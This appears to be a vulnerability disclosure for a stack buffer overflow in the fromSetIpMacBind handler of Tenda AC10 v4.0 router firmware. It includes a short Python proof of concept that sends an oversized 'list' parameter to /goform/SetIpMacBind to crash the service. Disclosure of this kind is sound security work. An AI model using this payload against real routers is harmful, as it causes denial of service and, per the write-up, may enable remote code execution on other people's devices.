




# Tenda Router Vulnerability on fromSetIpMacBind function
> vendor:Tenda
>
> product:AC10
>
> version:v4.0 V16.03.10.13
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3506.html

## Vulnerability Details

The Tenda AC10V4.0 V16.03.10.13 has a buffer overflow vulnerability. The vulnerability is triggered in the `fromSetIpMacBind` function when it retrieves the value of the list parameter at line 57, and ultimately causes an overflow at line 67 in the `FUN_0049e098` function during the sscanf call. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.



## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
url = "http://192.168.1.100:80/goform/SetIpMacBind"
bindnum_value = "1"
list_value = "a" + "\x12" * 500 + "z" * 500  

data = {
    "bindnum": bindnum_value,
    "list": list_value
}

response = requests.post(url, data=data)
```




